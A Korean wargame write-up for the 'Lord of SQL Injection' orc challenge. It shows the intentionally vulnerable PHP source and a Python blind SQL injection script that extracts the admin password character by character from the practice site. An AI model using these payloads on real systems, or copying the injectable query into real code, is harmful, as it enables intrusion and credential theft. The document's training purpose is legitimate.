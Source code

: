 Lord of SQL Injection No.4 - orc
...
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello admin</h2>";
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
  highlight_file(__FILE__);
?>
...
위 문제에서 알 수 있는 것
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
받은 pw값과 DB에 저장된 pw값이 같으면 문제가 풀리게된다는 것을 알 수 있다.

문제 풀이 법
1)블라인드 인젝션
이 문제는 다음과 같은 파이썬 코드를 이용하여 풀 수 있다.
...
import urllib.request # urllib에서 request모듈을 불러온다.
from urllib.parse import quote # urllib.parse에 있는 quote모듈을 불러온다.
for i in range(1,100): #pw길이를 알아내는 코드
    url="http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
    data= "1 'or length(pw) = {}-- -".format(i) #파이썬의 format은 문장에 {}있는 곳에 들어갈 수를 지정해주는 역할
    print(data)
    data=quote(data)
    re = urllib.request.Request(url + data)

    re.add_header( # 이 부분이 없으면 에러발생(권한오류..?)
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36")
    re.add_header( # 이 부분이 사라지게되면 계속해서 이 파일이 있는 장소로 돌아오게되어서 무한루프가 된다.
            "Cookie", "PHPSESSID=9vlqon375eef8ptltfs9152ap6"
        )
    res = urllib.request.urlopen(re)
    print(i)
    if str(res.read()).find("Hello admin") != -1:
        break
print("비밀번호 자릿수는",i,"입니다")
#pw 값을 알아내기 위한 코드
pwlen=i #i의 값이 pw의 길이임으로 다음 코드에서 활용하기 위해 pwlen에 pw길이를 저장한다.
key = "" # 알아낸 비밀번호를 저장하기 위한 변수
for i in range(1, pwlen+1): #range는 두번째 입력한 숫자의 -1까지 돌리므로 비밀번호 길이에 +1을 해준다.
    for j in range(32, 127):
        url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
        data = "1'or substr(pw, 1, {}) = '{}'-- -".format(str(i), key + chr(j))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=9vlqon375eef8ptltfs9152ap6"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1: #잘라낸 길이 만큼이 저장된 비밀번호와 같으면 Hello admin이뜨는것을 활용하여 Hello admin이 뜨지않으면 -1을 반환해서 다시 j부분을 계속돌리고 뜨면 for문의 j를 멈추어 다음 자리를 찾는 것을 할 수 있게 한다.
            key += chr(j).lower()
            print(key)
            break
print("비밀번호는",key)
...
